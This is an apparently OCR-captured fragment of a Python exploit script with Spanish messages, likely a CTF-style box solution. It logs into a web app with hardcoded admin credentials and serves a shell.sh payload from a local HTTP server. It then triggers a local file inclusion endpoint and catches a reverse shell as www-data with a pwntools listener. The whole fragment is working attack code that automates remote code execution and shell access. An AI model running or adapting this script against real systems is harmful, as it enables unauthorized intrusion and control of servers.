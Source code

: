 ```python
        time.sleep(1)
        p3.status("\nIniciando sesion como admin:1q2w3e4r5t\n")
        time.sleep(1)
        s = requests.Session()
        login_data2 = {
            'username' : 'admin',
            'password' : '1q2w3e4r5t'
        }
        r = s.post(url_login2, data=login_data2)
        p4 = log.progress("[*]Montando servidor con Python para ejecutar shell.sh")
        subprocess.Popen(["timeout", "5", "python3", "-m", "http.server", "80"])
        time.sleep(2)
        cookie_data2 = {
            'PHPSESSID' : '6mg8bpr1556fhre675t44ptsg7'
        }
        r = s.get(url_LFI, cookies=cookie_data2)
        
    except requests.exceptions.ReadTimeout:
        p3.success("Payload enviado con exito!")
        sys.exit(1)

    except Exception as e:
            print(e)

if __name__ == '__main__':
    try:
        threading.Thread(target=obtainShell).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=10).wait_for_connection()

    if shell.sock is None:
        log.failure("No se ha obtenido conexion")
        sys.exit()
    else:
        log.success("\n ✔️  Se ha obtenido una shell ✔️ \n")
        time.sleep(1)
        log.info("\nAcceso como www-data\n")
        time.sleep(1)

    shell.interactive()
```